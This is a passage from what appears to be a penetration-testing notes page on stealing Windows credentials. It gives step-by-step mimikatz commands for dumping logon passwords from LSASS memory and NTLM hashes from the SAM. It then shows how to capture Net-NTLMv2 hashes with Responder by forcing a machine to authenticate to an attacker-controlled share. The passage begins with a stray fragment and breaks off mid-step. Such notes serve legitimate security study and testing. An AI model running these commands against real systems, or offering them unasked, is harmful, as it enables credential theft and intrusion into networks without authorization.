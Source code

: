 ```sh
# So, it can be helpful for the older version of the Windows.
```

**(3) Mimikatz**

The most powerful credential-dumping tool.

1. **Upload and execute** `mimikatz.exe` on the target machine

2. **Enable Debug Privileges**. This should be a standard for running mimikatz as it `SeDebugPrivilege` access right enabled to run command such as `sekurlsa::logonpasswords` and `lsadump::sam`.

    ```dos
    mimikatz # privilege::debug
    Privilege '20' OK
    ```

    This should return **Privilege '20' OK**.

3. **Extract Logon Passwords**. This command parses the LSASS process memory for credentials of logged-on users.

    ```dos
    sekurlsa::logonpasswords
    ```

4. **Dump NTLM hashes** from the SAM. You must first run `token::elevate` to elevate to `SYSTEM` user privileges.

    ```dos
    mimikatz # token::elevate
    mimikatz # lsadump::sam
    ```

---

### Abuse the Net-NTLMv2

If you cannot dump hashes directly, you can capture a **Net-NTLMv2** hash. This is a challenge-response hash used for network authentication and is more secure than NTLMv1. Unlike an NTLM hash, it cannot be used for Pass-the-Hash but can be cracked offline or relayed.

1. **Set up a fake SMB/HTTP server** using **[Responder](https://github.com/lgandx/Responder)** or similar tool.

    ```sh
    # sudo responder -I <your_network_interface> -v
    sudo responder -I tap0 -v
    ```

2. **Trigger Authentication**. Force a Windows machine to authenticate to your listener.
 
    * **From a Shell**: If you have command execution, request a resource from your attacker machine's fake share.

    ```sh
    dir \\<your_ip>\share
    ```
